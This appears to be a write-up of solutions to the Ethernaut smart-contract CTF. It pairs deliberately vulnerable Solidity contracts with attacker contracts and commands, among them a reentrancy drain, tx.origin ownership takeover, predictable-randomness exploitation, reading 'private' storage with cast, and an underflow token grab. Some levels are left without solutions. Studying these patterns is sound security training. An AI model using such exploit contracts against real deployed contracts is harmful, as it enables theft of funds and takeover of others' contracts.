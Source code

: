 CTF: [Ethernaut](https://ethernaut.openzeppelin.com/)

## 01 Hello Ethernaut

```javascript
await contract.info();
await contract.info1();
await contract.info2("hello");
await contract.infoNum();
await contract.info42();
await contract.theMethodName();
await contract.method7123949();
await contract.authenticate(await contract.password());
```

## 02 Fallback

You will beat this level if
- you claim ownership of the contract
- you reduce its balance to 0

<details> 
<summary>Code</summary>

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {
    mapping(address => uint256) public contributions;
    address public owner;

    constructor() {
        owner = msg.sender;
        contributions[msg.sender] = 1000 * (1 ether);
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

    function getContribution() public view returns (uint256) {
        return contributions[msg.sender];
    }

    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
}
```
</details>

<details> 
<summary>Solution</summary>

In the `contribute` function, ownership is granted to the address that has contributed more than the current owner. However, in the `receive` function, ownership is granted solely to any address that sends ether to the contract as long as it has a non-zero contribution, regardless of whether it has contributed more than the current owner. This  allows an attacker to become the owner of the contract without actually out-contributing the current owner.

Steps:
1. Call the `contribute` function and send any amount less than `0.001 ether`. Even `1 wei` is sufficient.
2. Trigger the `receive` function by manually sends `ether` directly to the contract. Again, the amount can be as little as 1 wei.
3. Once the `receive` function executes, you'll become the contract owner.
4. As the new owner, you can now call the `withdraw` function to drain all the `ether` from the contract.

</details>

## 03 Fallout

Claim ownership of the contract below to complete this level.

<details> 
<summary>Code</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Fallout {
    using SafeMath for uint256;

    mapping(address => uint256) allocations;
    address payable public owner;

    /* constructor */
    function Fal1out() public payable {
        owner = msg.sender;
        allocations[owner] = msg.value;
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function allocate() public payable {
        allocations[msg.sender] = allocations[msg.sender].add(msg.value);
    }

    function sendAllocation(address payable allocator) public {
        require(allocations[allocator] > 0);
        allocator.transfer(allocations[allocator]);
    }

    function collectAllocations() public onlyOwner {
        msg.sender.transfer(address(this).balance);
    }

    function allocatorBalance(address allocator) public view returns (uint256) {
        return allocations[allocator];
    }
}
```
</details>

<details> 
<summary>Solution</summary>

In this contract, the intended `constructor` is written as a function named `Fal1out`, which was the convention for constructors in versions of Solidity **prior to 0.4.22**. However, this contract is using Solidity **0.6.0**, where constructors must be declared using the `constructor` keyword.

Moreover, the function name `Fal1out` is not even the same as the contract name `Fallout`, it uses a digit "1" instead of the letter "l". As a result, the function `Fal1out` is treated as a public, regular function that can be called by anyone, not a constructor.

1. Call the `Fal1out` function and send some ether (even 0 is fine).
2. In Remix, it's recommended to create an interface for the contract and paste the deployed address to interact with it. Or if in browser, run `await contract.Fal1out()`
3. This sets `msg.sender`, you, as the new `owner`.

</details>

## 04 Coin Flip

This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

<details> <summary>Code</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}
```
</details>

<details> <summary> Solution </summary>

This contract uses the previous block's hash along with a constant value to generate randomness. However, this approach is not truly random. It can be easily predicted or even influenced by miners.

```solidity
contract Hacker {

    CoinFlip CF;
    constructor(address _CoinFlip) {
        CF = CoinFlip(_CoinFlip);
    }

    // Note: 10 consecutive streak wins
    function cheat() external {
        uint256 coinFlip = uint256(blockhash(block.number - 1)) / 57896044618658097711785492504343953926634992332820282019728792003956564819968;
        bool answer = coinFlip == 1 ? true : false;

        // for (uint i = 0; 1 < 10; i++) {
        //     require(CF.flip(answer), "Wrong Answer");
        // }

        require(CF.flip(answer), "Wrong Answer");
    }

}
```

To guess the randomness with 100% accuracy and no risk, simply replicate the logic used by the original contract. As long as you're operating within the same block, the generated randomness will be identical due to the deterministic mechanism used. <br>

Deploy the contract above and call the `cheat` function 10 times. Be sure to wait a few seconds between each call to ensure that transactions are not included in the same block. Otherwise, the `CoinFlip::flip()` function will revert due to the `lastHash` check.

</details>

## 05 Telephone

Claim ownership of the contract below to complete this level.

<details> <summary>Code</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```

</details>

<details> <summary> Solution </summary>

The function `Telephone::changeOwner` grants ownership based on a check against `tx.origin`.

```solidity
contract Phish {

    Telephone telephone;
    constructor(address _telephone) {
        telephone = Telephone(_telephone);
    }

    /** 
     * msg.sender = immediate caller
     * tx.origin = EOA who started the tx (e.g., you)
     *
     * Eg:
     * Bob -> A -> B -> C -> D
     * msg.sender == address of the previous caller
     * tx.origin == Bob
     *
     * This Scenario:
     * Bob -> phish.phishing() -> Telephone.changeOwner()
     *
     * msg.sender for phish.phishing() -> Bob
     * msg.sender for Telephone.changeOwner() -> phish
     * tx.origin for phish.phishing() -> Bob
     * tx.origin for Telephone.changeOwner() -> Bob
     * 
     */
    function phishing() public {
        telephone.changeOwner(msg.sender);
    }

}

```

Deploy the contract above and call the `phishing` function. To claim ownership of the `Telephone` contract, you must call it through another contract (like the `Phish` contract). This is necessary because the `Telephone::changeOwner` function only updates the owner if `msg.sender != tx.origin`.

By calling `Phish::phishing` from your EOA:
- `msg.sender` inside `Telephone::changeOwner()` becomes the `Phish` contract address.
- `tx.origin` remains you (the original EOA who initiated the transaction).
- Since `msg.sender != tx.origin`, the condition passes, and the owner is successfully changed to your address.

</details>

## 06 Token

The goal of this level is for you to hack the basic token contract below.

You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.

<details> <summary> Code </summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {
    mapping(address => uint256) balances;
    uint256 public totalSupply;

    constructor(uint256 _initialSupply) public {
        balances[msg.sender] = totalSupply = _initialSupply;
    }

    function transfer(address _to, uint256 _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }

    function balanceOf(address _owner) public view returns (uint256 balance) {
        return balances[_owner];
    }
}
```

</details>

<details> <summary> Solution </summary>

Solidity versions prior to `0.8.0`, arithmetic operations do not automatically revert on overflow or underflow. Instead, the value wraps around:
- Overflow wraps to zero and upward from there.
- Underflow wraps to the maximum value.

To get large amount of token, simply call `transfer` with a value greater than 20, for example `transfer(anyAddressButNotYours, 21)`. The `balances[msg.sender] -= 21` operation will cause underflow, setting your balance to `2^256 - 1`, a massive number.

</details>

## 07 Delegation

The goal of this level is for you to claim ownership of the instance you are given.

<details> <summary> Code </summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {
    address public owner;

    constructor(address _owner) {
        owner = _owner;
    }

    function pwn() public {
        owner = msg.sender;
    }
}

contract Delegation {
    address public owner;
    Delegate delegate;

    constructor(address _delegateAddress) {
        delegate = Delegate(_delegateAddress);
        owner = msg.sender;
    }

    fallback() external {
        (bool result,) = address(delegate).delegatecall(msg.data);
        if (result) {
            this;
        }
    }
}
```

</details>

## 08 Force

Some contracts will simply not take your money `¯\_(ツ)_/¯`

The goal of this level is to make the balance of the contract greater than zero.

<details> <summary> Code </summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```

</details>

## 09 Vault 

Unlock the vault to pass the level!

<details> <summary> Code </summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
    bool public locked;
    bytes32 private password;

    constructor(bytes32 _password) {
        locked = true;
        password = _password;
    }

    function unlock(bytes32 _password) public {
        if (password == _password) {
            locked = false;
        }
    }
}
```

</details>

<details> <summary> Solution </summary>

Even though the password is marked as private, all contract storage is publicly readable on-chain.

Solidity stores state variables in sequential storage slots:
- `locked` → slot 0
- `password` → slot 1

We can read slot 1 directly to obtain the password, below is the format to retrive private data:

```bash
cast storage <contract-address> <slot> --rpc-url $RPC_URL
```

Below is the example of using it to "unauthorize" getting access to read private data: 


1. Retrieve the data from the private storage
```bash
cast storage 0x334dd1624206eFe0e351FdF67F0dd0Cf3761433d 1 --rpc-url $RPC_URL
```

2. Then the following output from the command is the actual private data stored on-chain:
```bash
0x412076657279207374726f6e67207365637265742070617373776f7264203a29
```

call `unlock` function by pasting the `password` data from the storage slot 1 (second command as shown above)

</details>

## 10 King

The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD

Such a fun game. Your goal is to break it.

When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.

<details> <summary> Code </summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address king;
    uint256 public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value);
        king = msg.sender;
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}
```

</details>

<details> 

If a contract without a `receive` or `fallback` function becomes the king, it will reject ETH transfers (since it can’t receive any), this will cause `transfer` to fail in any future transaction inside the `receive` function, making no one can become the king anymore

```solidity
contract Evil {
    
    constructor(address payable king) payable {
        (bool ok, ) = king.call{ value: King(king).prize() } ("");
        require(ok, "Transfer Failed");
    }

    // Note:
    // the absent of receive/fallback makes this contract not being able
    // to receive funds (except selfdestruct) ... therefore broke the game

}
```

deploy the above contract and send at least an equivalent amount of the existing `prize` value as fund to become the king. the absent of `receive`or `fallback` function in `Evil` contract prevent receive any funds (except `selfdestruct()`), making the `payable(king).transfer(msg.value);` line fails in the future call of attempting becoming the king via `King::recieve` function.

</details>

## 11 Re-entrancy

The goal of this level is for you to steal all the funds from the contract.

<details> <summary> Code </summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Reentrance {
    using SafeMath for uint256;

    mapping(address => uint256) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }

    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }

    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}
```

</details>

<details> <summary> Solution </summary>

```solidity
contract Hacker {

    Reentrance public R;
    constructor(address payable _R) public {
        R = Reentrance(_R);
    }

    function Hack() external payable {
        require(msg.value == 1000000000000000, "Must be 1000000000000000");
        R.donate{value: 1000000000000000}(address(this));
        R.withdraw(1000000000000000);
    }
    receive() external payable { 
        if (CheckBalance() >= 1000000000000000) {
            R.withdraw(1000000000000000);
        }
    }

    function CheckBalance() public view returns(uint) {
        return address(R).balance;
    }

}
```

The vulnerability in the `Reentrance` contract lies in the `withdraw` function, where the balance update occurs after the external call. This allows a malicious contract to re-enter the `withdraw` function before the state is updated, effectively withdrawing multiple times using the same balance. By deploying the attacker contract shown above, you can exploit this reentrancy flaw to recursively drain the contract's entire balance.

</details>

## 12 Elevator

This elevator won't let you reach the top of your building. Right?

<details> <summary> Code </summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```

</details>

<details> <summary> Solution </summary>

```solidity
contract Construction is Building {
    Elevator elevator;
    uint Count;
    constructor(address _elevator) {
        elevator = Elevator(_elevator);
    }
    function goTo(uint _floor) external {
        elevator.goTo(_floor);
    }
    function isLastFloor(uint256 /* _floor */ ) 
        external 
        override 
        returns (bool) 
    {
        Count ++;
        return Count % 2 == 0;
    }
}
```

The `Elevator::goTo` function calls `Building::isLastFloor` twice, first to check if the requested floor is not the top floor, and a second time to set the `top` state variable. Deploy the contract above and call `goTo` function, you can exploit this behavior to make the `Elevator` contract to reach to the top floor.

In the `Construction` contract, `isLastFloor` increments a `count` and returns `true` only when the `count` is even. Since `Elevator::goTo` calls `isLastFloor` twice, the first call will return `false` (odd), allowing the condition to pass, and the second call will return `true` (even), causing the `Elevator` contract to set `top` to `true`.

</details>

## 13 Privacy

The creator of this contract was careful enough to protect the sensitive areas of its storage.

Unlock this contract to beat the level.

<details> <summary> Code </summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {
    bool public locked = true;
    uint256 public ID = block.timestamp;
    uint8 private flattening = 10;
    uint8 private denomination = 255;
    uint16 private awkwardness = uint16(block.timestamp);
    bytes32[3] private data;

    constructor(bytes32[3] memory _data) {
        data = _data;
    }

    function unlock(bytes16 _key) public {
        require(_key == bytes16(data[2]));
        locked = false;
    }

    /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
    */
}
```

</details>

<details> <summary> Solution </summary>

```solidity
    bool public locked = true;                              // slot 0
    uint256 public ID = block.timestamp;                    // slot 1
    uint8 private flattening = 10;                          //  ┐
    uint8 private denomination = 255;                       //  │ slot 2
    uint16 private awkwardness = uint16(block.timestamp);   //  ┘
    bytes32[3] private data;                                // slot 3, 4, 5
```

Similar to Level 9 Vault, retrieve the data from the private variable. To unlock the contract, we need to retrieve the value at **storage slot 5**, which corresponds to `data[2]`. We do this with:

```bash
cast storage <contract-address> 5 --rpc-url $RPC_URL
```

example as below:

```bash
cast storage 0x5ca9d60b06E68C84845558551ea55Ba9210ceFcc 5 --rpc-url $RPC_URL 
```

The `unlock` function expects a `bytes16` input, so we need to extract the first `16 bytes` of the `bytes32` value from slot 5. To help with this, you can deploy the following helper contract to cast `bytes32` to `bytes16`:

```solidity
contract CastBytes {
    function Cast(bytes32 _data) 
        public 
        pure 
        returns(bytes16)
    {
        return bytes16(_data);
    }
}
```

Call this function with the value you retrieved from storage slot 5, and use the result as input to the `Privacy::unlock` function unlock the contract.

</details>

## 14 Gatekeeper One

Make it past the gatekeeper and register as an entrant to pass this level.

<details> <summary> Code </summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        require(gasleft() % 8191 == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```

</details>

## 15 Gatekeeper Two

## 16 Naught Coin

NaughtCoin is an ERC20 token and you're already holding all of them. The catch is that you'll only be able to transfer them after a 10 year lockout period. Can you figure out how to get them out to another address so that you can transfer them freely? Complete this level by getting your token balance to 0.

<details> <summary> Code </summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";

contract NaughtCoin is ERC20 {
    // string public constant name = 'NaughtCoin';
    // string public constant symbol = '0x0';
    // uint public constant decimals = 18;
    uint256 public timeLock = block.timestamp + 10 * 365 days;
    uint256 public INITIAL_SUPPLY;
    address public player;

    constructor(address _player) ERC20("NaughtCoin", "0x0") {
        player = _player;
        INITIAL_SUPPLY = 1000000 * (10 ** uint256(decimals()));
        // _totalSupply = INITIAL_SUPPLY;
        // _balances[player] = INITIAL_SUPPLY;
        _mint(player, INITIAL_SUPPLY);
        emit Transfer(address(0), player, INITIAL_SUPPLY);
    }

    function transfer(address _to, uint256 _value) public override lockTokens returns (bool) {
        super.transfer(_to, _value);
    }

    // Prevent the initial owner from transferring tokens until the timelock has passed
    modifier lockTokens() {
        if (msg.sender == player) {
            require(block.timestamp > timeLock);
            _;
        } else {
            _;
        }
    }
}
```

</details>

<details> <summary> Solution </summary>

Approve someone to spend the tokens on your behalf. Since the `timeLock` modifier only applies to the `transfer` function, you can take advantage of `transferFrom` to let someone spend the tokens for you, moving them to another address without waiting for 10 years.

You might need an interface to interact with the `NaughtCoin` contract, as well as a separate address (or contract) to act as the spender. Below is a sample contract that moves your tokens to another address without having to wait for 10 years:

```solidity
// Note:
// Get access to the `NaughtCoin` contract here
interface INaughtCoin {
    function player() external view returns (address);
    function transferFrom(address _from, address _to, uint256 _value) external;
    function approve(address _spender, uint256 value) external returns (bool);
    function balanceOf(address _account) external view returns (uint256);
}

// Note:
// This is gonna be the spender speading your token
contract Spender {
    function Spend(address _naughtCoint) public {
        INaughtCoin _INaughtCoin = INaughtCoin(_naughtCoint);
        address player = _INaughtCoin.player();
        uint playerBal = _INaughtCoin.balanceOf(player);
        _INaughtCoin.transferFrom(player, address(this), playerBal);
    }
}
```

1. Deploy `Spender` contract (or any EOA will do, but in this case we use contract)
2. Get the `NaughtCoin` address and deploy the `INaughtCoin`, then approve the spender to spend all of your tokens
3. if you're using `Spender` contract, call `Spender::Spend` to have `Spender` contract spend the tokens on your behalf
4. if you wish to use another EOA address as a spender, switch your address to another EOA account and call `transferFrom` function. Ensures that spender is transfering all of your tokens to pass this level.

</details>

## 17 Preservation

This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored.

The goal of this level is for you to claim ownership of the instance you are given.

<details> <summary> Code </summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {
    // public library contracts
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    uint256 storedTime;
    // Sets the function signature for delegatecall
    bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

    constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
        timeZone1Library = _timeZone1LibraryAddress;
        timeZone2Library = _timeZone2LibraryAddress;
        owner = msg.sender;
    }

    // set the time for timezone 1
    function setFirstTime(uint256 _timeStamp) public {
        timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }

    // set the time for timezone 2
    function setSecondTime(uint256 _timeStamp) public {
        timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }
}

// Simple library contract to set the time
contract LibraryContract {
    // stores a timestamp
    uint256 storedTime;

    function setTime(uint256 _time) public {
        storedTime = _time;
    }
}
```

</details>

## 18 Recovery 

A contract creator has built a very simple token factory contract. Anyone can create new tokens with ease. After deploying the first token contract, the creator sent 0.001 ether to obtain more tokens. They have since lost the contract address.

This level will be completed if you can recover (or remove) the 0.001 ether from the lost contract address.

<details> <summary> Code </summary>

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Recovery {
    //generate tokens
    function generateToken(string memory _name, uint256 _initialSupply) public {
        new SimpleToken(_name, msg.sender, _initialSupply);
    }
}

contract SimpleToken {
    string public name;
    mapping(address => uint256) public balances;

    // constructor
    constructor(string memory _name, address _creator, uint256 _initialSupply) {
        name = _name;
        balances[_creator] = _initialSupply;
    }

    // collect ether in return for tokens
    receive() external payable {
        balances[msg.sender] = msg.value * 10;
    }

    // allow transfers of tokens
    function transfer(address _to, uint256 _amount) public {
        require(balances[msg.sender] >= _amount);
        balances[msg.sender] = balances[msg.sender] - _amount;
        balances[_to] = _amount;
    }

    // clean up after ourselves
    function destroy(address payable _to) public {
        selfdestruct(_to);
    }
}
```